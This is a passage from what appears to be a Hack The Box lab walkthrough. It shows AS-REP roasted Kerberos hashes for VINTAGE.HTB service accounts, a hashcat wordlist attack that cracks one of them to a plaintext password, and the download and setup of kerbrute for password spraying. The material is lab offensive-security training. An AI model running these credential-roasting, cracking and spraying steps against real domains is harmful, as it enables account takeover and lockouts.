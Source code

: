 ```
$krb5asrep$23$svc_ldap@VINTAGE.HTB:f2407ccd9ae6f1d9eed51f3b0a064f36$4cf175897ce5951da6d7c06b59bac400bf96c7a741f26285ee96628c9c3ba3710078add29f9b7ef2010792c633622a795e90034805712af47c3ccf1c676d71769cff5f1416856291dfb0daf5a2a385cfd4d88d205b7fcc70f6fa3c1408d3fc020a8108c842fd49373cc190c013215b6d4acffd6dbff664f43391dc559a3852e53ae7d78e7f44df795b66842576fb90db144259fa5a5137d7a8ebb245477c4554630e02a583fc5df5095bfc960fea5ad4e164b78a022a2dc40c82a5dfd49633331b7cd7ec597718c5a86b15b4724d038cea90ee37ecf5be29c980d723a4676753bb22101618c7ed1b3bae
$krb5asrep$23$svc_ark@VINTAGE.HTB:b296a405d236fed3039aebaf22658c67$f9d918b1e7a76c86bfa0407f3593d8eb2d83149190d8bd7740f88c65fe3d989c0a4429ec1a9c28ce8f4ca10d001351f529a5654bd59f27ebe1f1bb2a3893830cbee23204c94328d5ef24c93112e8ed7208176e5cbeb690049ab6539e21a724128b3cab9ad8680f6694a908a97d17c9933d646010655d801695cce7df3085e21aa4e094e65f6b06687f4e124d70c6e9c2297c944a538a31fe26dddd8b6a06b169bbbda2ed80e710f432a56b900fe591bb22def126aeca903300247db86f6a7c059047584aed349e5eaf624e653e803bd16c80f594dd50e8889ad30de6e5388f3a2897c81c1e946880404a
[-] User C.Neri_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
```
The svc_sql hash is the only one which can crack 
```
hashcat -a 0 -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt

<SNIP>
$krb5asrep$23$svc_sql@VINTAGE.HTB:21f3bee616690890b5888e3e18d56582$89e966c8c984fdba49c4a5cb373407959a53c78fe823bcb599e4bff22df326780d2a869ed1572467797244c4b2f50a49af143612ee467dba34784a66a5805ad1d556e129838c3107a40259d80edafb2e6f88c80a77a4b3d30d5069a69d3a6b7f001f2fa3251faa17706a7fd255a96c3bfadf10f93e049b0fcc1f41227af5dbefee1ae906f23bfc4d1c6b0f7a8f4328ecce63b45e6944157f88d814830c568fb59763f1d6e785736d5ec368c6d27968c399eaa339067dc32783df85920ae876d3241bace19475691d6373cd0700771659a90d15a4cfeeb1dd89a5a6659b2c6316863e475ce228ac83274f:Zer0the0ne
<SNIP>
```
We can now kerbrute to blast user 
```
curl -LO https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
100 8092k  100 8092k    0     0  39.7M      0 --:--:-- --:--:-- --:--:-- 39.7M
┌─[au-vip-1]─[10.10.14.2]─[zzac@htb-xng4pqphqw]─[~]
└──╼ [★]$ ls
 cacert.der  'FS01$.ccache'          Music           Public
 Desktop     'GMSA01$.ccache'        my_data         Templates
 Documents    hashes.txt             Pictures        usernames.txt
 Downloads    kerbrute_linux_amd64   P.Rosa.ccache   Videos
┌─[au-vip-1]─[10.10.14.2]─[zzac@htb-xng4pqphqw]─[~]
└──╼ [★]$ chmod +x kerbrute_linux_amd64
┌─[au-vip-1]─[10.10.14.2]─[zzac@htb-xng4pqphqw]─[~]
└──╼ [★]$ sudo mv kerbrute_linux_amd64 /usr/local/bin/kerbrute
┌─[au-vip-1]─[10.10.14.2]─[zzac@htb-xng4pqphqw]─[~]
└──╼ [★]$ kerbrute --help

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 04/25/25 - Ronnie Flathers @ropnop

This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication.
It is designed to be used on an internal Windows domain with access to one of the Domain Controllers.
Warning: failed Kerberos Pre-Auth counts as a failed login and WILL lock out accounts

Usage:
  kerbrute [command]
```
